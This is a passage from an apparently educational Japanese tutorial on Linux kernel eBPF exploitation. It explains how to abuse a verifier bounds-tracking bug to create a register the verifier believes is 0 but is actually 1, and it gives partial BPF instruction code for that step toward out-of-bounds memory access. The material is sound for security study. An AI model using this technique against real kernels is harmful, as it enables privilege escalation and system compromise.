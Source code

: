 ## 範囲外参照
[前章](verifier.html)でも少し触れましたが、2022年現在はALU sanitationという緩和機構が入っているため、かつてのように単純には範囲外参照ができません。
しかし、まずは「単純な」範囲外参照を試してみましょう。
実は、ALU sanitationは[`bpf_bypass_spec_v1`](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L1469)という関数がtrueを返したときは[スキップ](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7196)されます。この関数はroot権限ではtrueを返すので、root権限では今でも範囲外参照を試せます。
そこで、まずはroot権限で「単純な」範囲外参照を試してみましょう。

### 追跡が壊れた定数の作成
検証器の誤りを悪用する上で便利なのは、「検証器がXと思っているが実際にはYである定数（XX!=Y）」を作ることです。とくにX=0,Y!=0のときは、何を掛けても検証器は0と判断するので、範囲外参照のオフセットを作るのに都合が良いです。
まずは「検証器が0と思っているが実際には1である定数」を作ってみましょう。

今、R1は`u32_min_value`が1で`u32_max_value`が0になっています。反対に、R2に`u32_min_value`が0で`u32_max_value`が1である（壊れていない）値を入れます。ここでR1とR2の加算を考えると、範囲は`[1,0]+[0,1]=[1,1]`になることが分かります。

最小値、最大値が同じレジスタは、MOVなどのタイミングで定数扱いになります。R1の実際値は1でしたが、R2は0か1を取ります。したがって、加算結果は`[1,2]`でなければなりません。しかし、検証器は加算後のR1を定数1と判断してしまうため、実際には2が入っている状況が生まれます。
あとはR1から1を引けば、目的の「検証器は0と思っているが実際には1である定数」が作れます。

`u32_min_value`が0で`u32_max_value`が1であるR2は、論理・算術演算を組み合わせるか、条件分岐で1より大きいケースを捨てることで作成できます。
```c
  // BPFマップを作成
  int mapfd = map_create(8, 1);
  val = 1;
  map_update(mapfd, 0, &val);

  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_9, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0) / 実際値:1
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R2 --> (s32_min=0, s32_max=1, u32_min=0, u32_max=1) / 実際値:1
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_9, 0),
    BPF_JMP32_IMM(BPF_JLE, BPF_REG_2, 1, 2), // 1より大きいケースを破棄
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // R1 --> 0 / 実際値:1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1の実際の値を見てみる
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_1, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外
